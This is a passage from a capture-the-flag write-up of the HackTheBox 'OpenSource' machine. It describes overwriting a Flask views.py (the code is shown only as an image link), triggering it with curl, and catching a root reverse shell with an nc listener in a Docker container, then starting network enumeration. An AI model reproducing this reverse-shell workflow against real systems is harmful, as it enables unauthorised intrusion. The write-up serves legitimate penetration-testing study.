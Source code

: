 Overwrote the existing **views.py:**

![OpenSource%20f45f07afdacd4cfaab930db6a8f3f493](../../zzz_res/attachments/OpenSource%20f45f07afdacd4cfaab930db6a8f3f493%207.png)

Obtained the reverse shell:

```bash
┌──(maoutis㉿kali)-[~/CTF/HTB/OpenSource/exploit]
└─$ curl http://10.129.68.116/maoutis

┌──(maoutis㉿kali)-[~/CTF/HTB/OpenSource/exploit]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.46] from (UNKNOWN) [10.129.68.116] 39222
/bin/sh: can't access tty; job control turned off
/app # id; hostname
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
5db59442dad1

*** migrated the shell on nc ***
```

# Lateral Movement to user

## Local enumeration

Enumerated the target machine from the docker network:

```bash
/ # ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
16: eth0@if17: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP
    link/ether 02:42:ac:11:00:08 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.8/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```
